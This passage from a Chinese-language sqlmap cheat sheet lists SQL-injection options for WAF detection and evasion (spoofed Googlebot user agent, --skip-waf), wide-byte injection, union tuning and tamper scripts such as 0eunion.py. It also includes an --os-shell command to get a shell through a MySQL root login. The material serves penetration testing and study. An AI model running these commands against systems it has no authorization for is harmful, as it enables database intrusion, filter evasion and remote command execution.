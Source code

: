 **预估完成时间**

```bash
--eta                                           # 计算注入数据的剩余时间
```

**测试 WAF/IPS/IDS 保护**

```bash
--identify-waf                                                      # 尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。
--mobile                                                            # 模仿智能手机
--referer "http://www.google.com"                                   # 模拟来源
--user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"    # 模拟谷歌蜘蛛
--skip-waf
```

**尝试 getshell**

```bash
sqlmap -d "mysql://root:root@192.168.1.1:3306/mysql" --os-shell
```

**宽字节检测**
```bash
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3     # 宽字节检测
```

**union 语句测试**
```bash
--union-cols=UCOLS  测试UNION查询的SQL注入的列的范围
--union-char=UCHAR  用来破解列数的字符
--union-from=UFROM  在UNION查询的FROM部分中使用的表
```

---

## tamper

用法
```
python sqlmap.py -u http://xx.xxx.xx.xx?id=1 --tamper xxx.py
```

**相关文章**
- [工具使用｜神器Sqlmap tamper的使用介绍](https://mp.weixin.qq.com/s/gOvVWcjyCZypdnNxHyPS2g)
- [SQLMAP-Tamper之较为通用的双写绕过](https://mp.weixin.qq.com/s/iLhKD9sqrjchx63rFAS2Ew)

### 0eunion.py

> Replaces instances of <int> UNION with <int>e0UNION

使用 `e0UNION` 替换 `UNION`

Requirement:
* MySQL
* MsSQL

Notes:
* Reference: https://media.blackhat.com/us-13/US-13-Salgado-SQLi-Optimization-and-Obfuscation-Techniques-Slides.pdf
